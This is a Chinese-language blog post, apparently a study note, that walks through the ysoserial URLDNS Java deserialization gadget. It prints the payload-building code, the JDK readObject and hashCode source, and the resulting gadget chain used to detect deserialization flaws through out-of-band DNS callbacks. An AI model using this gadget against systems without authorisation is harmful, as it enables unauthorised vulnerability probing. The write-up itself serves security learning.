 ```yaml
---
title: ysoserial URLDNS分析
date: 2022-02-24 10:40:14
tags:
---
```


## 前言

最近在学习p牛的《java安全漫谈》，文中许多简化版易于理解的demo，根据对demo的理解结合`ysoserial`源码学习java反序列化，对`ysoserial`源码分析过程做下记录，本文先记录下URLDNS的分析过程，后续再继续学习记录所有CC链的分析过程，冲冲冲。

## 分析过程

### 如何调试ysoserial

`ysoserial`所有payload都放在`src/main/java/ysoserial/payloads`目录，目录下每个文件都有一个`main`方法，我们要调试哪个利用链，只需要调试对应的java文件即可，例如URLDNS.java的`main`方法

```java
 public static void main(final String[] args) throws Exception {
                PayloadRunner.run(URLDNS.class, args);
        }
```

`payloads`目录下所有的`main`方法都会调用`PayloadRunner.run()`，跟进`PayloadRunner.run()`方法，可以看到主要逻辑是将传入第一个参数实例化后调用该类的`getObject`方法，接着将`getObject`方法的返回的对象序列化和反序列化，所以利用链的构造逻辑主要在`getObject`方法内。

```java
public static void run(final Class<? extends ObjectPayload<?>> clazz, final String[] args) throws Exception {
   // ensure payload generation doesn't throw an exception
   byte[] serialized = new ExecCheckingSecurityManager().callWrapped(new Callable<byte[]>(){
      public byte[] call() throws Exception {
         final String command = args.length > 0 && args[0] != null ? args[0] : getDefaultTestCmd();

         System.out.println("generating payload object(s) for command: '" + command + "'");

         ObjectPayload<?> payload = clazz.newInstance();
               final Object objBefore = payload.getObject(command);

         System.out.println("serializing payload");
         byte[] ser = Serializer.serialize(objBefore);
         Utils.releasePayload(payload, objBefore);
               return ser;
   }});

   try {
      System.out.println("deserializing payload");
      final Object objAfter = Deserializer.deserialize(serialized);
   } catch (Exception e) {
      e.printStackTrace();
   }

}
```

### URLDNS

来看下URLDNS的`getObject`方法

```java
public Object getObject(final String url) throws Exception {

        //Avoid DNS resolution during payload creation
        //Since the field <code>java.net.URL.handler</code> is transient, it will not be part of the serialized payload.
        URLStreamHandler handler = new SilentURLStreamHandler();

        HashMap ht = new HashMap(); // HashMap that will contain the URL
        URL u = new URL(null, url, handler); // URL to use as the Key
        ht.put(u, url); //The value can be anything that is Serializable, URL as the key is what triggers the DNS lookup.

        Reflections.setFieldValue(u, "hashCode", -1); // During the put above, the URL's hashCode is calculated and cached. This resets that so the next time hashCode is called a DNS lookup will be triggered.

        return ht;
}
```

逻辑比较简单，将一个`URL`对象put到`HashMap`的key，再将`URL`的`hashCode`设置为`-1`后返回，11行注释指出了只有`hashCode`设置`-1`才能触发DNS请求。

触发反序列化的方法是在`readObject`方法，上面`getObject`返回的是一个HashMap对象，所以先看下`HashMap`类的`readObject`方法

```java
private void readObject(java.io.ObjectInputStream s)
    throws IOException, ClassNotFoundException {
    // Read in the threshold (ignored), loadfactor, and any hidden stuff
    s.defaultReadObject();
    reinitialize();
    if (loadFactor <= 0 || Float.isNaN(loadFactor))
        throw new InvalidObjectException("Illegal load factor: " +
                                         loadFactor);
    s.readInt();                // Read and ignore number of buckets
    int mappings = s.readInt(); // Read number of mappings (size)
    if (mappings < 0)
        throw new InvalidObjectException("Illegal mappings count: " +
                                         mappings);
    else if (mappings > 0) { // (if zero, use defaults)
        // Size the table using given load factor only if within
        // range of 0.25...4.0
        float lf = Math.min(Math.max(0.25f, loadFactor), 4.0f);
        float fc = (float)mappings / lf + 1.0f;
        int cap = ((fc < DEFAULT_INITIAL_CAPACITY) ?
                   DEFAULT_INITIAL_CAPACITY :
                   (fc >= MAXIMUM_CAPACITY) ?
                   MAXIMUM_CAPACITY :
                   tableSizeFor((int)fc));
        float ft = (float)cap * lf;
        threshold = ((cap < MAXIMUM_CAPACITY && ft < MAXIMUM_CAPACITY) ?
                     (int)ft : Integer.MAX_VALUE);

        // Check Map.Entry[].class since it's the nearest public type to
        // what we're actually creating.
        SharedSecrets.getJavaOISAccess().checkArray(s, Map.Entry[].class, cap);
        @SuppressWarnings({"rawtypes","unchecked"})
        Node<K,V>[] tab = (Node<K,V>[])new Node[cap];
        table = tab;

        // Read the keys and values, and put the mappings in the HashMap
        for (int i = 0; i < mappings; i++) {
            @SuppressWarnings("unchecked")
                K key = (K) s.readObject();
            @SuppressWarnings("unchecked")
                V value = (V) s.readObject();
            putVal(hash(key), key, value, false, false);
        }
    }
}
```

`hash`函数在41行，所以直接在41行下断点

![image-20220225103112305](ysoserial-URLDNS分析/image-20220225103112305.png)

跟进`hash`函数，接着调用了URL的`hashCode`

```java
static final int hash(Object key) {
    int h;
    return (key == null) ? 0 : (h = key.hashCode()) ^ (h >>> 16);
}
```

在URL类的`hashCode`可以看到`hashCode`为`-1`才往下走，所以前面`getObject`函数中才会将`hashCode`设置为`-1`，接着调用`URLStreamHandler` 对象的`hashcode`方法

```java
public synchronized int hashCode() {
    if (hashCode != -1)
        return hashCode;

    hashCode = handler.hashCode(this);
    return hashCode;
}
```

跟入`hashCode`，将URL传入的`getHostAddress`方法

![image-20220225105425560](ysoserial-URLDNS分析/image-20220225105425560.png)

跟进`getHostAddress`方法，通过`InetAddress.getByName`将主机名转化为IP，也就是执行一次DNS查询

![image-20220225105549303](ysoserial-URLDNS分析/image-20220225105549303.png)

查看第三方反连平台，接收到了DNS请求，说明确实存在反序列化漏洞

![image-20220225105815270](ysoserial-URLDNS分析/image-20220225105815270.png)

调用链如下

![image-20220225111335501](ysoserial-URLDNS分析/image-20220225111335501.png)

所以URLDNS的`Gadget`为

```
HashMap.readObject()
->HashMap.hash()
->URL.hashCode()
->URLStreamHandler.hashCode()
->URLStreamHandler.getHostAddress()
->InetAddress.getByName()
```

## 总结

URLDNS调试起来简单清晰，确实比较适合像我这种入门级选手初次调试反序列流程，URLDNS只能触发DNS请求，并不能说是一个利用链，所以通常用URLDNS来判断是否存在反序列化漏洞。

## 参考

[《Java安全漫谈 - 08.认识最简单的Gadget——URLDNS》](https://wx.zsxq.com/dweb2/index/topic_detail/548242484442524)

[ysoserial项目](https://github.com/frohoff/ysoserial)

